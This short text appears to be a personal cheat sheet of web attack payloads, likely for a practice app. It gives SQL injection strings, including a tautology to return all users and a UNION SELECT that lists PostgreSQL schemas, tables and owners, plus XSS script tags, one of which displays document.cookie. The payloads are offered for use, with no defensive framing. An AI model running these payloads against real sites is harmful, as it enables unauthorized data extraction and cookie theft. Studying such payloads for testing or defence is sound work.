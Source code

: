 SQL INJECTION
-
//Use this to get all users
' or 1=1

//Use this to get the information about users and all the databases and their tables
' or 1=1 UNION SELECT null  AS id, schemaname as name, tablename as email, tableowner as password FROM pg_tables where '1' ='1


XSS

<script>
document.body.style.backgroundColor = "red";
</script>

<script>
alert( document.cookie );
</script>

<script>
document.body.style.transform = "rotate(45deg)";
</script>
